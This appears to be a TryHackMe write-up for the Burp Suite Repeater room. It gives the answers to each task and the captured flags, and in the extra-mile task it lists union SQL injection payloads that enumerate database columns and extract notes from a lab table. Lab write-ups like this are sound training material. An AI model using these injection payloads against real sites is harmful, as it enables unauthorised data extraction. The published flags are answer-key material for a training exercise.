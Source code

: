 # Burp Suite - Repeater 

December 2, 2023

#### Task 1: Introduction

- Let's get started
	- `No answer needed`

#### Task 2: What is Repeater?

- Which sections gives us a more intuitive control over our requests?
	- `Inspector`

#### Task 3: Basic Usage

- Which view will populate when sending a request from the Proxy module to Repeater?
	- `Request`

#### Task 4: Message Analysis Toolbar

- Which option allows us to visualize the page as it would appear in a web browser?
	- `Render`

#### Task 5: Inspector 

- Which section in Inspector is specific to POST requests?
	- `Body Parameters`

#### Task 6: Practical Example

- What is the flag you receive?
	- `THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}`
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/a2835f14-4820-48b4-a647-37ffd9560795)
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/1d8d9887-8a63-409d-99ac-9e6e2a573800)


#### Task 7: Challenge

- Enable intercept again and capture a request to one of the numeric products endpoints in the Proxy module, then forward it to Repeater.
	- `No answer needed`

- See if you can get the server to error out with a "500 Internal Server Error" code by changing the number at the end of the request to extreme inputs.
- What is the flag you receive when you cause a 500 error in the endpoint?
	- `THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl}`
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/e27caac7-e1fa-46f9-aa5b-2803127121e4)
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/4fe6e7e9-9db3-4357-ae93-755e8d042b32)
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/fc59c444-d1a8-40a9-aafc-fcaa0ed5cb06)


#### Task 8: Extra-mile Challenge

- Exploit the union SQL injection vulnerability in the site. What is the flag?
	- `THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}`
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/467c7851-5f28-42a2-8014-c36df2c282c9)
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/2eb8a0dd-cc88-43e3-ad87-9d1ec1a1b618)

```
GET /about/2' HTTP/1.1
/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"
/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"
0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1
```
#### Task 9: Conclusion

- I can use Burp Suite Repeater!
	- `No answer needed`

